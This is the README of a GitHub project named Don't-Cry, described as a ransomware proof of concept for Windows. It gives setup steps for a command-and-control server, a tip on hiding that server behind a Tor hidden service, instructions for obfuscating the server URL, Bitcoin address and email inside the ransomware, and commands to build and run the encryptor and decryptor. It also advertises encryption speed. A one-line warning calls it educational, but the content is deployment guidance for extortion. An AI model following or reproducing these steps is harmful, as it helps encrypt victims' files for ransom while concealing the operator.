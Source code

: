 <h1 align="center">Don't-Cry Ransomware PoC</h1>

<div align="center">
  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Rust-1.87.0%2B-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue?logo=windows&logoColor=white" alt="Platform">
</div>

![DCry](imgs/dcry.png)
PoC ransomware in Python targeting Windows systems 💀💀💀

---

## Setup & Installation

### Server (Linux)

1. Install the required packages:

  ```powershell
  pip3 install -r requirements-server.txt
  ```

2. Run the server:

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

> Or for debugging:

  ```bash
  python3 src/server.py
  ```

> 💡 **Tip:** You can also run the server behind a Tor hidden service to hide your real IP.
> Example (in `torrc`):
>
> ```txt
> HiddenServiceDir /var/lib/tor/dcry/
> HiddenServicePort 80 127.0.0.1:8080
> ```
>
> After restarting Tor, your Onion address will be available in `/var/lib/tor/dcry/hostname`.

### Client (Windows)

1. Install the required packages:
  
  ```powershell
  pip install -r requirements-client.txt
  ```

---

## Usage

1. Open [`src/dcry.py`](src/dcry.py)
  
    * Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
      ```python
      YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
      ```
      (Use the `ex42` function from the `edx42` module to encode your URL first.)
      
      Example:
      ```python
      encoded_url = ex42(b"https://your-tor-server.onion")
      YOUR_URL = dx42(encoded_url).decode()
      ```
  
     * Replace `YOUR_PROXY`, `YOUR_BITCOIN_ADDRESS`, `YOUR_EMAIL_ADDRESS` similarly.
     * Set `dev_mode = False` if not using development mode.

2. Open [`src/decryptor.py`](src/decryptor.py)

   * Set `dev_mode = False` if not using development mode.

3. Build the Cython code:

  ```powershell
  python src/setup.py build_ext --inplace
  Move-Item -Path file_crypto.*.pyd -Destination src -Force
  ```

4. Run the server (WSGI):

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

5. Run the ransomware:

  ```powershell
  python src/dcry.py
  ```

6. Run the decryptor:

  ```powershell
  python src/decryptor.py
  ```

---

## Performance Note

**Estimated encryption speed with 16 processes (1 file, 53 GB):**

- Speed per process: ~56 MB/s
- Using 16 processes: ~896 MB/s


> ⚡ Using multiprocessing allows Python to approach native C/C++ speeds for large files.

---

## Warning

> [!WARNING]
> This project is a ransomware simulation for educational purposes only.

---

## FAQ

  * See details in [FAQ.md](docs/FAQ.md)

## Contributing

  * See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code of Conduct

  * See our community standards in [CODE\_OF\_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security

  * See the security policy in [SECURITY.md](docs/SECURITY.md)

## License

  * This project is licensed under the terms of the [Apache License 2.0](./LICENSE)


